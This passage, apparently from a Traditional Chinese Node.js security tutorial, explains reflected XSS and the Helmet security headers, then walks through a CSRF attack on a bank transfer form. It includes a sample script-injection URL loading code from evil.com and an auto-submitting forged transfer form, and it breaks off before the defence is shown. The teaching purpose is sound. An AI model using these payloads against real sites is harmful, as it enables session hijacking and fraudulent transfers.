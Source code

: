 有一個簡單的安全性頭部叫做`X-XSS-Protection`。它不能保護你免受所有種類的XSS，但是它可以保護你免受反射型XSS攻擊。不安全的搜索引擎是反射型XSS的最好例子。在每個搜索引擎中，當你進行一次查詢，你的查詢就會顯示到屏幕中(通常在頂部，並將他變成URL的一部分)。

```
https://mysearchengine.biz/search?query=candy
```

現在想像你在搜索`<script src="http://evil.com/hack.js"></script>`。它的URL看起來可能會像這樣：

```
https://mysearchengine.biz/search?query=<script%20src="http://evil.com/hack.js"></script>
```

現在，如果搜索引擎把這個查詢放置到HTML頁面中，你就已經給這個頁面注入了一個腳本！如果我將這個URL發給你並且你點擊了鏈接，我就可以控制它來做惡了。

防止這類攻擊的第一步就是對用戶的輸入進行審查。在這之後，你可以設置`X-XSS-Protection`頭部來防止一些瀏覽器進行會導致你出錯的腳本。如果使用Helmet，這只需要一行：

```
app.use(helmet.xssFilter());
```

Helmet同樣允許你設置另一個被稱為`Content-Security-Policy`的頭部。坦白說，光`Content-Security-Policy`就可以說一章。[https://www.html5rocks.com/en/tutorials/security/content-security-policy/](https://www.html5rocks.com/en/tutorials/security/content-security-policy/)查看HTML5 Rocks指南獲取更多信息，一旦你理解它，你就可以使用Helment的csp中間件了。

這兩個Helmet頭部在任何地方都跟處理用戶輸入同等重要。所以首先要做這兩件事情。

### 跨站請求偽造(CSRF)預防

假設我已經登陸我的銀行。你想要我給你的帳戶轉100萬美元，但是你並不是以我的身份登陸。你如何讓我轉錢給你？


#### 攻擊

在銀行站點中，有一個“轉帳”表單。在這表單中，我填入錢和收錢者然後點擊發送。背地裡，被POST請求一個URL。銀行將會確認我的cookie是否是正確的，如果是的話，它們就會打錢了。

你可以製造一個攜帶數量和接收者的POST請求，不過你不知道我的cookie，並且你不可能猜到它；它是一串很長的字符串。所以，你是否可以讓我發送一個這個POST請求呢？你可以透過跨站請求偽造來做到(CSRF有時也被稱為XSRF)。

為了實現這個CSRF攻擊，基本上你會讓我在不知情的情況下提交一個表單。假設你已經編寫了下面代碼清單這樣的表單：

```
<h1>Transfer money</h1>
<form method="post" action="https://mybank.biz/transfermoney">
    <input name="recipient" value="YourUsername" type="text">
    <input name="amount" value="1000000" type="number">
    <input type="submit">
</form>
```

假設你將它放置到一個你可以控制的HTML頁面文件中；可能會是hacker.com/stealmoney.html。你可以給我發送一封郵件，然後說“點擊這裡來看我的一些小貓照片！”如果我點擊了他，我將會看到：

![](http://i.imgur.com/ll7PLLc.png)

然後你可以利用JavaScript讓它自動提交表單，就像這樣：

```
<form method="post" action="https://mybank.biz/transfermoney">
    <!-- ... -->
</form>
<script>
    var formElement = document.querySelector("form");
    formElement.submit();
</script>
```
